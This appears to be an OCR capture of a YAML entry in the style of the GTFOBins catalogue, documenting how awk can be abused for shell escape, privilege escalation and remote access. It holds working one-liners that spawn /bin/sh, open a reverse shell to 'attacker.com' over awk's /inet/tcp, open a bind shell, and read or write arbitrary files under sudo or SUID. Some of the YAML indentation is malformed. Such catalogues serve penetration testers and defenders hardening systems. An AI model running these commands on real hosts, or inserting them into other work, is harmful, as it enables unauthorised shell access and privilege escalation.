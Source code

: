 ```yaml
---
functions:
  execute:
    examples:
      - code: awk 'BEGIN {system("/bin/sh")}'
    features:
      - interactive
      - sudo-enabled
      - suid-enabled
    
  reverse-shell:
    examples:
      - description: Run `nc -l -p 12345` on the attacker box to receive the shell.
        code: |
          RHOST=attacker.com
          RPORT=12345
          awk -v RHOST=$RHOST -v RPORT=$RPORT 'BEGIN {
              s = "/inet/tcp/0/" RHOST "/" RPORT;
              while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
              while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
     features:
       - non-interactive
       - sudo-enabled
       - suid-enabled
       
  bind-shell:
    examples:
      - description: Run `nc target.com 12345` on the attacker box to connect to the shell.
        code: |
          LPORT=12345
          awk -v LPORT=$LPORT 'BEGIN {
              s = "/inet/tcp/" LPORT "/0/0";
              while (1) {printf "> " |& s; if ((s |& getline c) <= 0) break;
              while (c && (c |& getline) > 0) print $0 |& s; close(c)}}'
     features:
       - non-interactive
       - sudo-enabled
       - suid-enabled

  file-read:
    examples:
      - code: |
          LFILE=file_to_read
          awk '//' "$LFILE"
    features:
      - sudo-enabled
      - suid-enabled
      
  file-write:
    examples:
      - code: |
        LFILE=file_to_write
        awk -v LFILE=$LFILE 'BEGIN { print "data" > LFILE }'
    features:
      - sudo-enabled
      - suid-enabled

---
```

